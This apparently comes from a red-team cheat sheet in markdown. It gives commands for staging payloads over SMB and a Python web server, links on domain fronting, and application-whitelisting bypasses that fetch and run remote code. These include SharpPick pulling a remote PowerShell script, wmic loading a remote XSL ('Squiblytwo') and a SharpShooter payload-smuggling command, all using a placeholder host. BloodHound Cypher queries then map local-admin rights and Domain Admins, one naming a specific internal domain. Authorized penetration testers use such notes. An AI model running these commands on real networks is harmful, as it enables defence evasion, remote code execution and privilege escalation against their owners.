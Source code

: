 ### SMB Server in Kali

`python smbserver.py test /root/tools`

### Python Web Server

`python -m SimpleHTTPServer <port>`

## Domain Fronting

https://blog.cobaltstrike.com/2017/02/06/high-reputation-redirectors-and-domain-fronting/
https://signal.org/blog/doodles-stickers-censorship/
https://www.securityartwork.es/2017/01/24/camouflage-at-encryption-layer-domain-fronting/
https://trac.torproject.org/projects/tor/wiki/doc/meek
http://bryceboe.com/2012/03/12/bypassing-gogos-inflight-internet-authentication/

## AWL bypasses

### Powershell without powershell.exe

`SharpPick.exe -d "http://blah/blah.ps1"`

### Squiblytwo 

`wmic.exe os get /format:"http://blah/foo.xsl"`

### Sharpshooter

https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/

`python SharpShooter.py --stageless --dotnetver 2 --payload js --output foo --rawscfile ./output/payload.bin --smuggle --template mcafee --com xslremote --awlurl http://blah/foo.xsl`

### cypher queries

user to which box the user has localadmin

`MATCH (u:User)-[r:MemberOf|:AdminTo*1..]->(c:Computer) return u.name, collect(c.name)`

List of DAs

`Match p=(u:User)-[:MemberOf]->(g:Group) WHERE g.name= "DOMAIN ADMINS@INTERNAL.CROWNLTD.COM.AU" return u.displayname`

